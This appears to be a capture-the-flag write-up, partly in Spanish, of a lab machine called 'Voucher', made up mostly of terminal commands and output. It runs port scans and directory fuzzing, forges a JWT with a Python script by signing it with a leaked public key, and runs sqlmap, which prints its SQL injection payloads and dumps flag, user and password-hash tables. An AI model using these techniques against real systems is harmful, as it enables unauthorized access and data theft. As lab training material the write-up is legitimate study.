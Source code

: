 ──(kali㉿kali)-[~/Documents/Voucher]
└─$ nmap -sS -p- --open --min-rate 5000 -Pn -n 192.168.56.9 -oN scan.txt                                                                
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-22 16:10 EDT
Nmap scan report for 192.168.56.9
Host is up (0.00015s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy
MAC Address: 08:00:27:12:3A:7E (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 3.05 seconds


====================================================================================================================================================================

┌──(kali㉿kali)-[~/Documents/Voucher]
└─$ nmap -sVC -p22,80,8080 -vvv -n -Pn 192.168.56.9 -oN fullscan.txt
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-22 16:11 EDT
NSE: Loaded 157 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 16:11
Completed NSE at 16:11, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 16:11
Completed NSE at 16:11, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 16:11
Completed NSE at 16:11, 0.00s elapsed
Initiating ARP Ping Scan at 16:11
Scanning 192.168.56.9 [1 port]
Completed ARP Ping Scan at 16:11, 0.06s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 16:11
Scanning 192.168.56.9 [3 ports]
Discovered open port 8080/tcp on 192.168.56.9
Discovered open port 80/tcp on 192.168.56.9
Discovered open port 22/tcp on 192.168.56.9
Completed SYN Stealth Scan at 16:11, 0.02s elapsed (3 total ports)
Initiating Service scan at 16:11
Scanning 3 services on 192.168.56.9
Warning: Hit PCRE_ERROR_MATCHLIMIT when probing for service http with the regex '^HTTP/1\.1 \d\d\d (?:[^\r\n]*\r\n(?!\r\n))*?.*\r\nServer: Virata-EmWeb/R([\d_]+)\r\nContent-Type: text/html; ?charset=UTF-8\r\nExpires: .*<title>HP (Color |)LaserJet ([\w._ -]+)&nbsp;&nbsp;&nbsp;'
Completed Service scan at 16:11, 6.17s elapsed (3 services on 1 host)
NSE: Script scanning 192.168.56.9.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 16:11
Completed NSE at 16:11, 0.53s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 16:11
Completed NSE at 16:11, 0.02s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 16:11
Completed NSE at 16:11, 0.00s elapsed
Nmap scan report for 192.168.56.9
Host is up, received arp-response (0.00034s latency).
Scanned at 2025-10-22 16:11:20 EDT for 7s

PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4a:57:d3:b8:32:93:f3:e7:da:cd:8f:75:ad:fb:98:2e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGhWzcmvHbO6azg60JvXG63qNLlG0s10PEcOA0h4tGr66bxl1UkXAjRNtGw9LpADbICGy7/Z0pWZD9Cdug+CyHY=
|   256 96:75:da:7a:5b:51:3e:a4:cd:17:b6:36:7d:18:7e:3f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHCVFXSYgXB6NPdl3arjR6GGnyidPucKlOMEwd7kjrkW
80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
8080/tcp open  http    syn-ack ttl 64 PHP cli server 5.5 or later (PHP 8.3.6)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: CyberShield Academy \xE2\x80\x94 Advanced Cybersecurity Training
MAC Address: 08:00:27:12:3A:7E (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 16:11
Completed NSE at 16:11, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 16:11
Completed NSE at 16:11, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 16:11
Completed NSE at 16:11, 0.00s elapsed
Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.63 seconds
           Raw packets sent: 4 (160B) | Rcvd: 4 (160B)


====================================================================================================================================================================


┌──(kali㉿kali)-[~/Documents/Voucher]
└─$ whatweb http://192.168.56.9                   
http://192.168.56.9 [200 OK] Apache[2.4.58], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.58 (Ubuntu)], IP[192.168.56.9], Title[Apache2 Ubuntu Default Page: It works]                                                                                                                
                                                                                                                                                  
┌──(kali㉿kali)-[~/Documents/Voucher]
└─$ whatweb http://192.168.56.9:8080/
http://192.168.56.9:8080/ [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, IP[192.168.56.9], PHP[8.3.6], Script, Title[CyberShield Academy — Advanced Cybersecurity Training], X-Powered-By[PHP/8.3.6]                                                                                             
                                                                                                                                                  
┌──(kali㉿kali)-[~/Documents/Voucher]
└─$ 
====================================================================================================================================================================




──(kali㉿kali)-[~/Documents/Voucher]
└─$ wfuzz -c --hc=400,404 --hl=126  -u "http://192.168.56.9:8080/FUZZ" -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.56.9:8080/FUZZ
Total requests: 220559

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                          
=====================================================================

000005068:   200        1 L      4 W        79 Ch       "keys"                                                                           
000147065:   200        126 L    361 W      4345 Ch     "59340"                                                                          

Total time: 283.2523
Processed Requests: 147061
Filtered Requests: 147060
Requests/sec.: 519.1872









====================================================================================================================================================================
                                                                                                                                                  
┌──(kali㉿kali)-[~/Documents/Voucher]
└─$ wfuzz -c --hc=400,404  -u "http://192.168.56.9:8080/keys/FUZZ.FUZ2Z" -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -z list,pem,pub,cert -t 20 
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.56.9:8080/keys/FUZZ.FUZ2Z
Total requests: 220559

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                          
=====================================================================

000000001:   200        1 L      4 W        79 Ch       "# directory-list-2.3-medium.txt - pem"                                          
000000011:   200        1 L      4 W        79 Ch       "# Priority ordered case-sensitive list, where entries were found - pem"         
000000005:   200        1 L      4 W        79 Ch       "# This work is licensed under the Creative Commons - pem"                       
000000013:   200        1 L      4 W        79 Ch       "# - pem"                                                                        
000000006:   200        1 L      4 W        79 Ch       "# Attribution-Share Alike 3.0 License. To view a copy of this - pem"            
000000009:   200        1 L      4 W        79 Ch       "# Suite 300, San Francisco, California, 94105, USA. - pem"                      
000000012:   200        1 L      4 W        79 Ch       "# on at least 2 different hosts - pem"                                          
000000002:   200        1 L      4 W        79 Ch       "# - pem"                                                                        
000000003:   200        1 L      4 W        79 Ch       "# Copyright 2007 James Fisher - pem"                                            
000000008:   200        1 L      4 W        79 Ch       "# or send a letter to Creative Commons, 171 Second Street, - pem"               
000000007:   200        1 L      4 W        79 Ch       "# license, visit http://creativecommons.org/licenses/by-sa/3.0/ - pem"          
000000004:   200        1 L      4 W        79 Ch       "# - pem"                                                                        
000000010:   200        1 L      4 W        79 Ch       "# - pem"                                                                        
000000221:   200        9 L      13 W       451 Ch      "public - pem"                                                                   

Total time: 0
Processed Requests: 220559
Filtered Requests: 220545
Requests/sec.: 0


====================================================================================================================================================================

                                                                                                                                               
┌──(kali㉿kali)-[~/Documents/Voucher]
└─$ wget http://192.168.56.9:8080/keys/public.pem  
--2025-10-22 16:52:42--  http://192.168.56.9:8080/keys/public.pem
Connecting to 192.168.56.9:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 451 [application/x-x509-ca-cert]
Saving to: ‘public.pem’

public.pem                           100%[====================================================================>]     451  --.-KB/s    in 0s      

2025-10-22 16:52:42 (47.9 MB/s) - ‘public.pem’ saved [451/451]

                                                                                                                                                  
┌──(kali㉿kali)-[~/Documents/Voucher]
└─$ ls 
fullscan.txt  public.pem  scan.txt
                                                                                                                                                  
┌──(kali㉿kali)-[~/Documents/Voucher]
└─$ cat public.pem 
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEApDzyDfHCClQNka8/CF2q
Il0c0hvfIYS6eFHvMW8z+ERBfUls3UijaFWHYMUKPEuWQIeDbbact225OZNVt6gH
CyPP9DEmr0AEKTqd6vc0nAOFhRPim4wFe5Eedq5RVcqpRhd4uchEKGzYNa6XLm37
lX0GmWt2dpWx/wcrGiBqvpCieh89CTUvINVhFHhFnX44T/3atJkXaYQu330wYs8v
2ge/sEHI988fpGv74liVh7q/nhrOf8ZXFE3MOJNOp9sCtL4HFASAc/RXwuoErjW0
tcAiatPYlrWIFezMpFXEiTf5vXG9Zj0K7vFhJUN+QaxTrmH988LhRxsMUhzZZ/sb
nwIDAQAB
-----END PUBLIC KEY-----



====================================================================================================================================================================


──(kali㉿kali)-[~/Documents/Voucher]
└─$ nano scripJson.py                                               



Explotación
Con este llave vamos a intentar falsificar un Json Web Token esperando que el servidor esté mal configurado y únicamente firme el token con la llave pública que hemos encontrado.

Para ello, usamos el siguiente script de python3:



```bash 
import json, base64, hmac, hashlib

# Functions
def b64url_encode(data):
    s = base64.urlsafe_b64encode(data).rstrip(b"=")
    return s.decode("ascii")

def b64url_encode_json(obj):
    j = json.dumps(obj, separators=(',', ':'), sort_keys=True)
    return b64url_encode(j.encode('utf-8'))

def hmac_sha256(key, msg):
    return hmac.new(key, msg, hashlib.sha256).digest()

def build_token(header_obj, payload_obj, key_bytes):
    encoded_header = b64url_encode_json(header_obj)
    encoded_payload = b64url_encode_json(payload_obj)
    signing_input = (encoded_header + "." + encoded_payload).encode('ascii')
    sig = hmac_sha256(key_bytes, signing_input)
    encoded_sig = b64url_encode(sig)
    return f"{encoded_header}.{encoded_payload}.{encoded_sig}"


# Open public.pem
with open("public.pem", "rb") as file:
        key_bytes=file.read()

# Create JWT
header = {"alg": "HS256", "typ": "JWT"}

payload = {"username": "admin"},

token= build_token(header,payload, key_bytes)

print("Token--> " + token)
```


====================================================================================================================================================================

┌──(kali㉿kali)-[~/Documents/Voucher]
└─$ chmod +x scripJson.py 

                                                                                                                                                  
┌──(kali㉿kali)-[~/Documents/Voucher]
└─$ python3 scripJson.py public.pem 
Token--> eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.W3sidXNlcm5hbWUiOiJhZG1pbiJ9XQ.p5xuSYdRW7kENc1nzySrtNorfnIAzOnEA5WgixfYHOY
                                                                                                                                                  

====================================================================================================================================================================

# Vemos que la petición se tramita mediante el método GET a /api/courses.php y le pasa el parámetro "q", así que vamos a usar curl para mandarle una petición a ese endpoint con el token generado y ver la respuesta.



view-source:http://192.168.56.9:8080/courses.php




<script>
async function runSearch() {
  const out = document.getElementById('out');
  const err = document.getElementById('err');
  out.innerHTML = '';
  err.innerHTML = '';
  const q = document.getElementById('q').value;
  const token = localStorage.getItem('token') || '';
  const r = await fetch('/api/courses.php?q=' + encodeURIComponent(q), {
    headers: {'Authorization': 'Bearer ' + token}
  });
  const j = await r.json();
  if (!r.ok) {
    err.innerHTML = '<div class="alert alert-danger">'+(j.error||'error')+(j.detail?(' — '+j.detail):'')+'</div>';
    return;
  }
  if (j.error) {
    err.innerHTML = '<div class="alert alert-danger">'+j.error+'</div>';
    return;
  }
  const list = j.results || [];
  if (list.length === 0) {
    out.innerHTML = '<div class="text-muted">No results.</div>';
  } else {
    out.innerHTML = list.map(c => `
      <div class="card mb-3 shadow-sm">
        <div class="card-body">
          <h5 class="card-title">${c.title}</h5>
          <p class="card-text">${c.description}</p>
        </div>
      </div>
    `).join('');
  }
  if (j.sql_error) {
    err.innerHTML = '<div class="alert alert-warning"><strong>SQL Error:</strong> '+j.sql_error+'</div>';
  }
}
document.getElementById('btn').addEventListener('click', runSearch);
document.getElementById('q').addEventListener('keydown', (e)=>{ if(e.key==='Enter') runSearch(); });
</script>



====================================================================================================================================================================
El token funciona. Además, observamos un sql_errors en el json de la respuesta, así que podemos intentar poner una comilla al final del parámetro para ver su comportamiento y verificar si es vulnerable a una SQL Injection.



└─$ curl -s "http://192.168.56.9:8080/api/courses.php?q=a" -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.W3sidXNlcm5hbWUiOiJhZG1pbiJ9XQ.p5xuSYdRW7kENc1nzySrtNorfnIAzOnEA5WgixfYHOY"
{
    "results": [
        {
            "id": 1,
            "title": "Offensive Security Basics",
            "description": "Hands-on intro to offensive techniques: recon, scanning, basic exploitation."
        },
        {
            "id": 2,
            "title": "Web App Pentesting",
            "description": "OWASP Top 10, manual testing workflows, tooling, and reporting."
        },
        {
            "id": 3,
            "title": "Active Directory Attacks",
            "description": "From enumeration to DCSync, tickets, and defenses."
        },
        {
            "id": 4,
            "title": "Cloud Security 101",
            "description": "Threat modeling and security controls across major cloud providers."
        }
    ],
    "sql_error": null
}                                                                                                                                                  
┌──(kali㉿kali)-[~/Documents/Voucher]


====================================================================================================================================================================

┌──(kali㉿kali)-[~/Documents/Voucher]
└─$ curl -s "http://192.168.56.9:8080/api/courses.php?q=a'" -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.W3sidXNlcm5hbWUiOiJhZG1pbiJ9XQ.p5xuSYdRW7kENc1nzySrtNorfnIAzOnEA5WgixfYHOY"             
{
    "results": [],
    "sql_error": "SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''%'' at line 1"
}                                                                                                                                                  




====================================================================================================================================================================


┌──(kali㉿kali)-[~/Documents/Voucher]
└─$ sqlmap --url "http://192.168.56.9:8080/api/courses.php?q=1" --headers="Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.W3sidXNlcm5hbWUiOiJhZG1pbiJ9XQ.p5xuSYdRW7kENc1nzySrtNorfnIAzOnEA5WgixfYHOY" --dump --batch 
        ___
       __H__                                                                                                                                      
 ___ ___[.]_____ ___ ___  {1.9.4#stable}                                                                                                          
|_ -| . [)]     | .'| . |                                                                                                                         
|___|_  ["]_|_|_|__,|  _|                                                                                                                         
      |_|V...       |_|   https://sqlmap.org                                                                                                      

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 16:56:41 /2025-10-22/

[16:56:41] [INFO] testing connection to the target URL
[16:56:42] [INFO] checking if the target is protected by some kind of WAF/IPS
[16:56:42] [INFO] testing if the target URL content is stable
[16:56:42] [INFO] target URL content is stable
[16:56:42] [INFO] testing if GET parameter 'q' is dynamic
[16:56:42] [INFO] GET parameter 'q' appears to be dynamic
[16:56:42] [INFO] heuristic (basic) test shows that GET parameter 'q' might be injectable (possible DBMS: 'MySQL')
[16:56:42] [INFO] testing for SQL injection on GET parameter 'q'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[16:56:42] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[16:56:42] [WARNING] reflective value(s) found and filtering out
[16:56:42] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[16:56:42] [INFO] testing 'Generic inline queries'
[16:56:42] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[16:56:42] [INFO] GET parameter 'q' appears to be 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)' injectable 
[16:56:42] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[16:56:42] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[16:56:42] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[16:56:42] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[16:56:42] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[16:56:42] [INFO] testing 'MySQL >= 5.6 OR error-based - WHERE or HAVING clause (GTID_SUBSET)'
[16:56:42] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[16:56:42] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[16:56:42] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[16:56:42] [INFO] GET parameter 'q' is 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable 
[16:56:42] [INFO] testing 'MySQL inline queries'
[16:56:42] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[16:56:42] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[16:56:42] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[16:56:42] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[16:56:42] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK - comment)'
[16:56:42] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK)'
[16:56:42] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[16:56:52] [INFO] GET parameter 'q' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[16:56:52] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[16:56:52] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[16:56:52] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[16:56:52] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[16:56:52] [INFO] target URL appears to have 3 columns in query
[16:56:52] [INFO] GET parameter 'q' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'q' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 63 HTTP(s) requests:
---
Parameter: q (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: q=1' AND 3896=3896#

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: q=1' AND (SELECT 2905 FROM(SELECT COUNT(*),CONCAT(0x717a787a71,(SELECT (ELT(2905=2905,1))),0x7171627871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- QEKf

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: q=1' AND (SELECT 5502 FROM (SELECT(SLEEP(5)))RaNj)-- JFJr

    Type: UNION query
    Title: MySQL UNION query (NULL) - 3 columns
    Payload: q=1' UNION ALL SELECT NULL,NULL,CONCAT(0x717a787a71,0x4c5854545a764244514f4c76674d7554784a6d5a534d76726170686845724d705955614752725177,0x7171627871)#
---
[16:56:52] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.3.6
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[16:56:52] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[16:56:52] [INFO] fetching current database
[16:56:52] [INFO] fetching tables for database: 'academy_ctf'
[16:56:53] [INFO] fetching columns for table 'flags' in database 'academy_ctf'
[16:56:53] [INFO] fetching entries for table 'flags' in database 'academy_ctf'
[16:56:53] [INFO] recognized possible password hashes in column 'flag_value'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
do you want to crack them via a dictionary-based attack? [Y/n/q] Y
[16:56:53] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[16:56:53] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N
[16:56:53] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[16:56:53] [INFO] starting 2 processes 
[16:57:16] [WARNING] no clear password(s) found                                                                                                  
Database: academy_ctf
Table: flags
[2 entries]
+----+--------+----------------------------------+
| id | name   | flag_value                       |
+----+--------+----------------------------------+
| 1  | PRELIM | c5c990058b42fd0b07c237a2a8035ac7 |
| 2  | FINAL  | 8c694f3b9d100de3d2ee51b76db4f3cb |
+----+--------+----------------------------------+

[16:57:16] [INFO] table 'academy_ctf.flags' dumped to CSV file '/home/kali/.local/share/sqlmap/output/192.168.56.9/dump/academy_ctf/flags.csv'
[16:57:16] [INFO] fetching columns for table 'users' in database 'academy_ctf'
[16:57:16] [INFO] fetching entries for table 'users' in database 'academy_ctf'
Database: academy_ctf
Table: users
[2 entries]
+----+-----------------------------+---------+---------------------+--------------------------------------------------------------+
| id | email                       | role    | created_at          | password_hash                                                |
+----+-----------------------------+---------+---------------------+--------------------------------------------------------------+
| 1  | admin@cybershield.academy   | admin   | 2025-09-17 10:49:30 | $2y$10$EC6q5rru/hD3yPn5nwVpUOLqqRWnRR0LbOXHQ7bT7.pnAW0AmSQ1e |
| 2  | student@cybershield.academy | student | 2025-09-17 10:49:30 | $2y$10$ddDtbqJ/PauZ3hhqnIH/zOr9j8TOHNUq1UB4tiuOxWGawlHjX135m |
+----+-----------------------------+---------+---------------------+--------------------------------------------------------------+

[16:57:16] [INFO] table 'academy_ctf.users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/192.168.56.9/dump/academy_ctf/users.csv'
[16:57:16] [INFO] fetching columns for table 'courses' in database 'academy_ctf'
[16:57:16] [INFO] fetching entries for table 'courses' in database 'academy_ctf'
Database: academy_ctf
Table: courses
[4 entries]
+----+---------------------------+---------------------+------------------------------------------------------------------------------+
| id | title                     | created_at          | description                                                                  |
+----+---------------------------+---------------------+------------------------------------------------------------------------------+
| 1  | Offensive Security Basics | 2025-09-17 10:49:30 | Hands-on intro to offensive techniques: recon, scanning, basic exploitation. |
| 2  | Web App Pentesting        | 2025-09-17 10:49:30 | OWASP Top 10, manual testing workflows, tooling, and reporting.              |
| 3  | Active Directory Attacks  | 2025-09-17 10:49:30 | From enumeration to DCSync, tickets, and defenses.                           |
| 4  | Cloud Security 101        | 2025-09-17 10:49:30 | Threat modeling and security controls across major cloud providers.          |
+----+---------------------------+---------------------+------------------------------------------------------------------------------+

[16:57:16] [INFO] table 'academy_ctf.courses' dumped to CSV file '/home/kali/.local/share/sqlmap/output/192.168.56.9/dump/academy_ctf/courses.csv'
[16:57:16] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/192.168.56.9'
[16:57:16] [WARNING] your sqlmap version is outdated

[*] ending @ 16:57:16 /2025-10-22/

                                                                                                                                                  
┌──(kali㉿kali)-[~/Documents/Voucher]
└─$ 
